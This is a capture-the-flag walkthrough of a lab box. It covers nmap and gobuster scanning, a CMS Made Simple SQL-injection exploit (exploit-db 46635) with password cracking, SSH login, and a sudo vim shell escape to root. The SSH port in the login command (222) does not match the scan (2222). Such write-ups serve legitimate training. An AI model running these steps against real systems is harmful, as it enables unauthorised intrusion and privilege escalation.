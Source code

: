 # Simple CTF - Walkthrough

![TITLE](title.png)

## TARGET : 10.10.9.135
## ATTACKER : OPENVPN IP

## Scanning

`nmap -A -p- -T4 10.10.9.135`

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.3.237
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website

This is the default apache page. Nothing interesting here.

`http://10.10.9.135/robots.txt`

```
Disallow: /openemr-5_0_1_3 
#
# End of "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $".
#
```

`gobuster dir -u http://10.10.9.135/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.9.135/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/simple               (Status: 301) [Size: 311] [--> http://10.10.9.135/simple/]
```

`http://10.10.9.135/simple`

![WEBSITE](website.png)

This is a CMS Made Simple website. Let's search for exploits.

`searchsploit cms made simple`

![SEARCHSPLOIT](searchsploit.png)

## Exploitation

`searchsploit -m php/webapps/46635.py` Or [Exploit](https://github.com/Mahamedm/CVE-2019-9053-Exploit-Python-3/blob/main/csm_made_simple_injection.py)


./46635.py -u http://10.10.9.135/simple/ --crack -w /usr/share/wordlists/rockyou.txt

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found:admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

## Gaining Access

`ssh mitch@10.10.9.135 -p 222`

```
$ whoami
mitch
$ ls -la
total 36
drwxr-x--- 3 mitch mitch 4096 aug 19  2019 .
drwxr-xr-x 4 root  root  4096 aug 17  2019 ..
-rw------- 1 mitch mitch  178 aug 17  2019 .bash_history
-rw-r--r-- 1 mitch mitch  220 sep  1  2015 .bash_logout
-rw-r--r-- 1 mitch mitch 3771 sep  1  2015 .bashrc
drwx------ 2 mitch mitch 4096 aug 19  2019 .cache
-rw-r--r-- 1 mitch mitch  655 mai 16  2017 .profile
-rw-rw-r-- 1 mitch mitch   19 aug 17  2019 user.txt
-rw------- 1 mitch mitch  515 aug 17  2019 .viminfo
$ cat user.txt
G00d j0b, keep up!
```

## Privilege Escalation

```
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

We can run vim as root without password. Let's spawn a shell.
[Exploit](https://gtfobins.github.io/gtfobins/vim/#sudo)

`sudo vim -c ':!/bin/sh'`

```
# whoami
root
# cat /root/root.txt
W3ll d0n3. You made it!
```